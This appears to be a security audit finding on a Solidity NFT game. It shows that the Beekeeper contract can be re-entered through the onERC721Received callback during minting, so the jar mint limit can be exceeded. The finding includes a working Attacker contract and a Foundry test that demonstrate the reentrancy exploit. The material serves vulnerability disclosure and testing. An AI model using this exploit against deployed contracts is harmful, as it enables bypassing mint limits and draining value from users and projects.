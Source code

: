 `HoneyJar` uses the internal `_safeMint` function to mint the jars. This function calls the `onERC721Received` function of the receiver contract if it exists. This can be used to re-enter the `Beekeeper` contract and mint more jars before the `progress.mintedJars` array is updated, allowing the mint limit to be exceeded. Another outcome of this attack is that the token ids stored in the `progress.mintedJars` array will be incorrect.

**Proof of concept**

Add the following contract to the file `Beekeeper.t.sol`.

```solidity
contract Attacker {
    Beekeeper public beekeeper;
    uint256 public mintEthPrice;
    uint256 public reentranceAmount;

    constructor(Beekeeper _beekeeper, uint256 _mintEthPrice) {
        beekeeper = _beekeeper;
        mintEthPrice = _mintEthPrice;
    }

    function mek(uint256 amount, uint256 _reentranceAmount) public payable {
        reentranceAmount = _reentranceAmount;
        beekeeper.mekHoneyJarWithETH{value: amount * mintEthPrice}(amount);
    }

    function onERC721Received(address, address, uint256, bytes memory) public virtual returns (bytes4) {
        uint256 amount = reentranceAmount;
        if (amount > 0) {
            reentranceAmount = 0;
            beekeeper.mekHoneyJarWithETH{value: amount * mintEthPrice}(amount);
        }
        return this.onERC721Received.selector;
    }
}
```

Add also the following function inside `BeekeeperTest` contract in the same file and run `forge test --mt testMintOverLimit -vv`.

```solidity
function testMintOverLimit() public {
    // Setup
    uint256 MAX_MEK_JARS = 4;
    uint256[] memory checkpoints = new uint256[](2);
    checkpoints[0] = 2;
    checkpoints[1] = MAX_MEK_JARS;
    beekeeper.setCheckpoints(0, checkpoints);
    gameRegistry.startGame(address(beekeeper));
    beekeeper.startGame(block.chainid, numSleepers);

    // Attack
    uint256 amountOverLimit = 2;
    Attacker attacker = new Attacker(beekeeper, MINT_PRICE_ETH);
    attacker.mek{value: (MAX_MEK_JARS + amountOverLimit) * MINT_PRICE_ETH}(MAX_MEK_JARS, amountOverLimit);

    assertEq(honeyJar.balanceOf(address(attacker)), MAX_MEK_JARS + amountOverLimit);
    Beekeeper.Apiculture memory progress = beekeeper.getProgress();
    for (uint256 i = 0; i < progress.mintedJars.length; i++) {
        console2.log("mintedJars[%s] = %s", i, progress.mintedJars[i]);
    }
}
```
